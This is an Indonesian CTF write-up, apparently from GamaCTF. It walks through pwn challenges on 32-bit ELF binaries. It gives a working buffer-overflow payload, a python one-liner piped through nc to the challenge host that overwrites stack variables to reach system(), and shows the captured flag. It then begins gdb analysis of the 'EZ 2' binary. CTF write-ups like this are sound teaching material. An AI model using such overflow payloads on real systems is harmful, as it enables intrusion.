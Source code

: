 Hampir sama dengan soal ```buffer1```. Binary ini menggunakan ```gets``` untuk mengambil inputan yang diberi ukuran sebesar ```0x90```.
Untuk mencapai ```system``` kita harus memenuhi beberapa syarat terlebih dahulu yaitu:
   
   1. ebp-0xc harus bernilai 0x13377331
   2. ebp-0x10 harus bernilai 0x0

Langsung saja susun payload hehe.

Command : ```python -c 'print "\x00"*132 + "\x31\x73\x37\x13"' | nc asgama.web.id 40210```

Result : 
```
$ python -c 'print "\x00"*132 + "\x31\x73\x37\x13"' | nc asgama.web.id 40210
GamaCTF{0v3RWrite_vAriaBl3_D0eL0e_G4n}
```

Flag : ```GamaCTF{0v3RWrite_vAriaBl3_D0eL0e_G4n}```


# EZ 2 [150 pts]

Diberikan file ELF-32 bit not stripped bernama ```hoho``` dan service  ```nc asgama.web.id 40209```
```
$ file hehe
hehe: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=91febecb162e2e4c737a82cd97f7f38040c28e55, not stripped
```

Langsung lihat fungsi ```main``` dengan gdb.
```
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x08048566 <+0>:  lea    ecx,[esp+0x4]
   0x0804856a <+4>:  and    esp,0xfffffff0
   0x0804856d <+7>:  push   DWORD PTR [ecx-0x4]
   0x08048570 <+10>: push   ebp
   0x08048571 <+11>: mov    ebp,esp
   0x08048573 <+13>: push   ecx
   0x08048574 <+14>: sub    esp,0x4
   0x08048577 <+17>: call   0x804854e <hah>
   0x0804857c <+22>: sub    esp,0xc
   0x0804857f <+25>: push   0x8048633
   0x08048584 <+30>: call   0x80483a0 <puts@plt>
   0x08048589 <+35>: add    esp,0x10
   0x0804858c <+38>: mov    eax,0x0
   0x08048591 <+43>: mov    ecx,DWORD PTR [ebp-0x4]
   0x08048594 <+46>: leave  
   0x08048595 <+47>: lea    esp,[ecx-0x4]
   0x08048598 <+50>: ret    
End of assembler dump.
```

Tidak ada apa - apa gan, tapi fungsi ```main``` memanggil fungsi ```hah```.
